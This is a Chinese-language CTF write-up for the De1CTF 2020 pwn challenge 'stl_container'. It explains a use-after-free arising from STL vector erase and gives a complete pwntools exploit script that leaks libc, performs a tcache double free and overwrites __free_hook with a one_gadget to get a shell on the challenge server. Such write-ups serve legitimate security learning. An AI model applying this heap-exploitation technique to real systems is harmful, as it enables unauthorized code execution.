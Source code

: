 ```yaml
---
title: De1CTF 2020 PWN stl_container
date: 2020-05-05 00:00:00
categories:
- CTF/Pwn
tags: tcache STL  
---
```


> 漏洞点是：由于C++中的STL中vector的特性以及自定义类的析构函数的搭配不当，导致存在悬空指针，并且可以被使用，即UAF。其使用的方式是可以继续free以及show其内容。

> 利用方式：本题libc版本为2.27，故可以使用构造tcache的DoubleFree完成任意地址写任意值。题目开启了全部保护，所以首先通过堆排布的手段泄露libc基址。然后通过DoubleFree覆盖libc中的__free_hook函数指针为one_gadget，并触发即可getshell。

- CTFtime: [stl_container](https://ctftime.org/task/11463)
- 题目文件: [cpp_attachment.zip](https://xuanxuanblingbling.github.io/assets/attachment/cpp_attachment.zip)

漏洞成因到现在为止也不是很明白，但是经过简单的测试以及调试就能发现打印出了奇怪的字符串，所以做题未必非要清楚漏洞成因：

- [std::vector::erase](http://www.cplusplus.com/reference/vector/vector/erase/)
- [Is destructor called when removing element from STL container?](https://stackoverflow.com/questions/3326238/is-destructor-called-when-removing-element-from-stl-container)
- [STL释放指针元素时造成的内存泄露](https://imzlp.me/posts/50773/)
- [STL源码分析之vector](http://luodw.cc/2015/10/27/STL-vec/)

```python
from pwn import *
context(arch="amd64",os ='linux',log_level='debug')
myelf = ELF("./stl_container")
libc  = ELF('./libc-2.27.so')
io    = remote("134.175.239.26",8848)
#io    = process(myelf.path,env={"LD_PRELOAD" : libc.path})

uu64        = lambda data                 :  u64(data.ljust(8, b'\0'))
sla         = lambda delim,data           :  (io.sendlineafter(delim, data))
List        = lambda                      :  (sla(">> ",'1'))
vector      = lambda                      :  (sla(">> ",'2'))
queue       = lambda                      :  (sla(">> ",'3'))
stack       = lambda                      :  (sla(">> ",'4'))
add         = lambda data                 :  (sla(">> ",'1'),sla("data:",data))
delete      = lambda idx                  :  (sla(">> ",'2'),sla("?\n",str(idx)))
show        = lambda idx                  :  (sla(">> ",'3'),sla("?\n",str(idx)))

# full tache
vector();add("123")
vector();add("456")
List();add("123")
List();add("123")
queue();add("123")
queue();add("456")
stack();add("123")
stack();add("456")
stack();vector()
stack();vector()
queue();vector()
queue();vector()
List();delete(1)
List();delete(0)

# free chunks to unsorted bin
vector();delete(0)

# leak libc
vector();show(0)
io.recvuntil(": ")
libc_addr = uu64(io.recv(6))-0x3ebca0
log.warn(hex(libc_addr))

# clear tcache
List();add("123")
List();add("123")
queue();add("123")
queue();add("456")
stack();add("123")
stack();add("456")
vector();add("123")

# tcache double free for arbitrary address write
vector();delete(0)
vector();delete(0)

# use aaw to modify __free_hook to one_gadget
vector();add(p64(libc_addr+libc.symbols['__free_hook']))
vector();add(p64(libc_addr+0x4f322))

io.interactive()
```